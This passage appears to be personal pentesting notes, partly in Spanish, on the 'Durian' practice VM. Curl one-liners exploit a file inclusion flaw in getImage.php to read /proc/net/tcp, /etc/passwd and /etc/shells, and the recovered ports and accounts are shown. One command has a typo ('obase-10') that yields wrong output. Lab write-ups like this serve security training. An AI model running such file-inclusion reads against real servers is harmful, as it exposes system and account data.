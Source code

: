 ```
for port in $(curl -s -X GET "http://192.168.0.65/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4 | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}'); do echo "[+] Puerto $port -> $(echo "obase-10; ibase=16; $port" | bc)"; done
```
There is something strange.. because i have a zero (????)
```
[+] Puerto 0016 -> 0
22
[+] Puerto 1F98 -> 0
8088
[+] Puerto 1BA8 -> 0
7080
[+] Puerto 0CEA -> 0
3306
```

| sort -n applys numeric order 
-k is the key .. 5 (based on the 5 value)

```
cds@cds:~/Documentos/Workspace/Virtual machines/pentesting/Durian/content$ for port in $(curl -s -X GET "http://192.168.0.65/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4 | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}'); do echo "[+] Puerto $port -> $(echo "obase-10; ibase=16; $port" | bc)"; done | sort -n -k 6
[+] Puerto 0016 -> 0
[+] Puerto 0CEA -> 0
[+] Puerto 1BA8 -> 0
[+] Puerto 1F98 -> 0
22
3306
7080
8088
```
Now we are going to see proces of the machine.

in the folder /proc/sched_debug

there is a loot of information there

```
cds@cds:~$ curl -s -X GET "http://192.168.100.58/cgi-data/getImage.php?file=/etc/passwd" | grep "sh$" 
root:x:0:0:root:/root:/bin/bash
durian:x:1000:1000:durian,,,:/home/durian:/bin/bash

```
We can see shells on the sistem
```
cds@cds:~$ curl -s -X GET "http://192.168.100.58/cgi-data/getImage.php?file=/etc/shells" | grep "sh$" 
/bin/sh
/bin/bash
/usr/bin/bash
/bin/rbash
/usr/bin/rbash
/bin/dash
/usr/bin/dash

```
